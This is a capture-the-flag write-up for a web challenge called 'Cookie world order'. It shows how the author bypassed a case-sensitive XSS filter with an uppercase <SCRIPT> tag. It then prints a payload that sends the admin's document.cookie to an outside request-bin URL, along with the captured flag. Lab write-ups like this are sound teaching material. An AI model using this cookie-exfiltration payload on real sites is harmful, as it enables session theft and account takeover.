



# Cookie world order



#### **Given:** web-address https://cwo-xss.web.ctfcompetition.com/

Let's open the web-site:


If we send a message it immediately appears on the page. It means that admin will see it too.
The name of the site suggests xss vulnerability. Let's try to send `<script></script>`:



`Hacker alert` detected :D. So there's at least some filters set up.

After few more tries I noticed that the filter is case-sensitive and `<SCRIPT></SCRIPT>` works :D

Let's set up a [posbin](https://postb.in/) and send a GET request to it with cookies inside:
```
<SCRIPT>cookie=document.cookie;
document.location.href='https://postb.in/1586640527762-2116085726302?cookie='+cookie
</SCRIPT>
```
Check the postbin:
```
cookie:flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};
```

**Flag: CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**